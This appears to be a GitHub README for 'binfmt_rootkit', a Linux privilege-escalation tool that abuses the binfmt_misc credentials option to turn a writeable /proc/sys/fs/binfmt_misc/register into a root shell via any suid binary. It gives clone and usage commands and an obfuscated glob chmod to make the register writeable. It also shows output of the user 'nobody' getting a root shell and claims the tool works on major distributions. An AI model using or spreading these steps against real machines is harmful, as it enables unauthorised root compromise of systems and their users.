 
###########
binfmt_misc
###########

Kernel Support for miscellaneous (your favourite) exploits

No breakthrough here, just some trivia involving binary formats.

binfmt_rootkit
--------------

Poor man's rootkit, leverage `binfmt_misc`__'s credentials_ option to
escalate privilege through any suid binary (and to get a root shell) if
:literal:`/proc/sys/fs/binfmt_misc/register` is writeable.

__ https://github.com/torvalds/linux/raw/master/Documentation/admin-guide/binfmt-misc.rst
.. _credentials: https://github.com/torvalds/linux/blame/3bdb5971ffc6e87362787c770353eb3e54b7af30/Documentation/binfmt_misc.txt#L62


.. code:: bash

    $ git clone https://github.com/plcp/binfmt_misc
    $ cd binfmt_misc
    $ ./binfmt_rootkit --help

    Usage: ./binfmt_rootkit
        Get you a root shell if /proc/sys/fs/binfmt_misc/register is writeable.
        (note that it must be enforced by other means before using the script,
        like by typing the poor man's rootkit: 'sudo chmod +6 /*/*/f*/*/*r')

Cheap nobody to root is cheap:

.. code:: bash

    $ sudo -u nobody ./binfmt_rootkit
    uid=0(root) euid=0(root)
    sh-4.4#

Tested on :literal:`Linux 4.9.6-1` and working with major distributions.
